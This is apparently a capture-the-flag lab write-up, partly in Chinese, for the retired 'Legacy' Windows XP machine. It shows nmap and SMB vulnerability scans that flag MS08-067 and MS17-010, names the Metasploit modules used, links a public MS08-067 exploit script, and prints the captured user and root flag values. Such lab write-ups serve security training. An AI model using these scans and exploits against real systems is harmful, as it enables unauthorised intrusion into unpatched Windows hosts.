


**Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.**

```
Legacy 是一台相当简单的初学者级机器，它展示了 Windows 上 SMB 的潜在安全风险
只需要一种公开可用的漏洞即可获得管理员访问权限
```

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```console
nmap -sC -sV -Pn 10.129.227.181 -vv > nmap_tcp_scan.conf

PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Windows XP microsoft-ds
```

### <span style="color:lightgreen">SMB</span>


```console
smbclient -N -L //10.129.227.181

nothing
```
### <span style="color:lightgreen">历史漏洞</span>

```console
nmap --script smb-vuln* -p 445 10.129.227.181

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

## <span style="color:lightblue">System Shell</span>
### <span style="color:lightgreen">smb-vuln-ms08-067</span>

```
windows/smb/ms08_067_netapi

C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69af0e4f443de7e36876fda4ec7644f

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993442d258b0e0ec917cae9e695d5713
```

```
https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
```

### <span style="color:lightgreen">smb-vuln-ms17-010</span>

```
目标系统32位

windows/smb/ms17_010_psexec
```


